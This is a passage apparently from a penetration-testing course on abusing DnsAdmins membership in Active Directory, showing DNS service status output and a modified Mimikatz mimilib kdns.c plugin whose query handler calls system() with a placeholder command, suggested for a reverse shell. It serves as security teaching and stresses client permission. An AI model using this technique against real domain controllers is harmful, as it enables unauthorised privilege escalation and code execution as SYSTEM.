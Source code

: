 If everything went to plan, querying the DNS service will show that it is running. We can also confirm that DNS is working correctly within the environment by performing an `nslookup` against the localhost or another host in the domain.

DnsAdmins

```cmd-session
C:\htb> sc query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Once again, this is a potentially destructive attack that we should only carry out with explicit permission from and in coordination with our client. If they understand the risks and want to see a full proof of concept, then the steps outlined in this section will help demonstrate the attack and clean up afterward.

---
## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

Code: c

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
```